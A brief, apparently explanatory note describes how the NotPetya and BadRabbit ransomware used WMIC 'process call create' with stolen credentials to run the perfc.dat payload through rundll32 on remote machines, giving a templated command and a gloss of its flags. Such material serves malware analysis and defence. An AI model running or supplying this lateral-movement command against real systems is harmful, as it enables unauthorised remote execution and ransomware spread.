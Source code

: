 **notpetya & BadRabbit ransomware used wmic process call create for remote code execution** </br>
C:\Windows\system32\wbem\wmic.exe /node:”<server name>” /user:”<username>” /password:”<password>” process call create “C:\Windows\System32\rundll32.exe \”C:\Windows\perfc.dat\” #1 19 “<additional creds for arguments>”” </br>

/node → specify server name </br>
/user → username </br>
/password → password </br>
Process call create → execute remote command </br>
Once the command line arguments are generated, either CreateProcessAsUser or CreateProcess is executed, depending on whether this is being done through impersonation or stolen credentials. </br>

